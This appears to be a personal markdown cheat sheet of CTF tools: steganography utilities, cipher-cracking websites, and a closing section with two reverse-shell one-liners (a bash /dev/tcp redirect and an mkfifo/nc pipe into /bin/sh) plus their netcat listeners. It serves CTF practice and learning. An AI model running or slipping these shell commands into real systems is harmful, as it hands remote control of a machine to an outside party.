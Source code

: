 # Tools and resources I have used on CTF's and Challenges

## Steganography
### MP3
* Spectrum analyzer: https://academo.org/demos/spectrum-analyzer/

### Images
* ImageStegano Tool: https://github.com/varunon9/Image-Stegano
  * check bit planes
* steghide

## Crypto
### Cipher cracking
* Vigenère
  * https://f00l.de/hacking/vigenere.php
  * http://simonsingh.net/The_Black_Chamber/vigenere_cracking_tool.html
* Caesar
  * https://www.nayuki.io/page/automatic-caesar-cipher-breaker-javascript
  
## Reverse shell
### 1 - S: bash ; C: nc
* Server: bash -i >& /dev/tcp/LISTENING-IP/LISTENING-PORT 0>&1
* Client: nc -nlvp LISTENING-PORT

### 2 - S: nc ; C: nc
* Server: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LISTENING-IP LISTENING-PORT >/tmp/f
* Client: nc -nlvp LISTENING-PORT
